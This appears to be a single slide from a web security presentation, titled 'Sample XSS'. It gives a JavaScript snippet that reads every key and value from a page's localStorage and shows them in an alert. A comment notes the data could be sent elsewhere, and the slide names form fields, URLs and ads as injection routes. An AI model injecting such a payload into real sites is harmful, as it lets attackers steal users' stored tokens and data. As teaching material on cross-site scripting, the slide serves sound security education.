

# Sample	 XSS
Inject a script like
 for (i=0; i<localStorage.length; i++)
 {
   	key = localStorage.key(i);
	pairs += "key:"+key+" value:"+localStorage.getItem(key);
}
	alert(pairs);
//Instead of alert you can send it somewhere
How – via Form fields, URLs , get user to click your ad , etc